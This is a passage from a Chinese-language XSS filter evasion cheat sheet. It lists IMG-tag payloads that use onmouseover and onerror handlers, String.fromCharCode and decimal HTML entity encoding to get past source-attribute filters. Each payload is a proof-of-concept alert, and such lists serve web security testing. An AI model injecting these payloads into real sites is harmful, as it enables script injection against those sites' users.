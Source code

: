 * * *

默认SRC属性去绕过SRC域名检测过滤器
--------------------

这将绕过绝大多数SRC域名过滤器。插入javascript代码在任何一个事件方法同样适用于热河一个HTML标签，例如Form、Iframe、Input、Embed等等。他将也允许任何任何该标签的相关事件去替换，例如onblur, onclick等，后面我们会附加一个可用的事件列表。由David Cross提供，Abdullah Hussam编辑。

```
<IMG SRC=# onmouseover="alert('xxs')">

```

* * *

默认SRC属性通过省略它的值
--------------

```
<IMG SRC= onmouseover="alert('xxs')">

```

* * *

默认SRC属性通过完全不设置它
---------------

```
<IMG onmouseover="alert('xxs')">

```

* * *

通过error事件触发alert
----------------

```
<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>

```

* * *

十进制html编码引用
-----------

所有在使用javascript指令的xss示例将无法工作在 Firefox 或 Netscape 8.1+，因为它们使用了 Gecko 渲染引擎。使用 XSS[Calculator](http://ha.ckers.org/xsscalc.html)获取更多信息。

```
<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;
&#39;&#88;&#83;&#83;&#39;&#41;>

```

* * *
